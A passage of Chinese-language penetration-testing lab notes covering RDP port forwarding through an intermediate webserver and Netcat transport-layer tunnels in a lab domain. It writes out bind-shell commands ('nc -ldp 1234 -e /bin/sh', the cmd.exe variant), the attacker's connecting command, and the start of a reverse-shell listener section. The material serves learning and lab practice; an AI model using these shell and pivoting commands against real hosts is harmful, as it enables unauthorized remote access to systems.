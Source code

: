 ```shell
rdesktop 192.168.80.146:7777
```

连接不了，发现DC和webserver不通。结果无所谓了，了解原理即可！

**DC 把本地的3389 转播到 webserver的6666端口 ，而webserver又把6666转到自己的7777 端口。**

**那么当kali去rdesktop访问webserver的7777端口时，就是连接的DC的远程桌面。**

换了两台虚拟机，配置了一下网卡，重做了一下，完美复现！！

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-21.png)



## 案例 4-传输层转发隧道 Netcat 使用-检测,利用,功能

### 实验环境

- Kali—god\webserver—god\sqlserver

### 正向反弹 shell

正向：攻击连接受害
受害：

```shell
nc -ldp 1234 -e /bin/sh 
#linux
```

```shell
nc -ldp 1234 -e c:\windows\system32\cmd.exe 
#windows
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-22.png)

攻击：

```shell
nc 192.168.76.132 1234
#主动连接
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-23.png)

### 反向反弹shell

反向：受害连接攻击
攻击：nc -lvp 1234

```shell
nc -lvp 1234
# 监听本地1234 等待受害主动把shell交过来
```
